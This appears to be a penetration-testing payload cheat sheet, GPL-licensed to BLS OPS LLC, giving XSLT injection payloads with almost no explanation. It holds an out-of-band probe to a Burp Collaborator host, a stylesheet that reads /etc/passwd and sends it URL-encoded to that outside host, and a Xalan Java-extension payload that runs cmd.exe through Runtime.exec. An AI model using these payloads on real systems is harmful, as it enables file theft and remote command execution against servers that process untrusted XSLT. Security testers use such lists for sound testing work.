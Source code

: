 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# XSLT

## Basic test case
~~~
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="doc">
    <xsl:variable name="attackerUrl" select="'http://1qsg2yhdfz4np3uerviimk3hk8qyen.burpcollaborator.net/'"/>
    <xsl:value-of select="unparsed-text($attackerUrl)"/>
  </xsl:template>
</xsl:stylesheet>
~~~

## Read a file
~~~
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="doc">
    <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
    <xsl:variable name="escaped" select="encode-for-uri($file)"/>
    <xsl:variable name="attackerUrl" select="'http://1qsg2yhdfz4np3uerviimk3hk8qyen.burpcollaborator.net/'"/>
    <xsl:variable name="exploitUrl" select="concat($attackerUrl,$escaped)"/>
    <xsl:value-of select="unparsed-text($exploitUrl)"/>
  </xsl:template>
</xsl:stylesheet>
~~~

## Execute a command
~~~
<xsl:stylesheet version="1.0"
 xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
 xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
 xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"
 exclude-result-prefixes= "rt ob">
 <xsl:template match="/">
   <xsl:variable name="runtimeObject" select="rt:getRuntime()"/>
   <xsl:variable name="command"
     select="rt:exec($runtimeObject, &apos;c:\Windows\system32\cmd.exe&apos;)"/>
   <xsl:variable name="commandAsString" select="ob:toString($command)"/>
   <xsl:value-of select="$commandAsString"/>
 </xsl:template>
</xsl:stylesheet>
~~~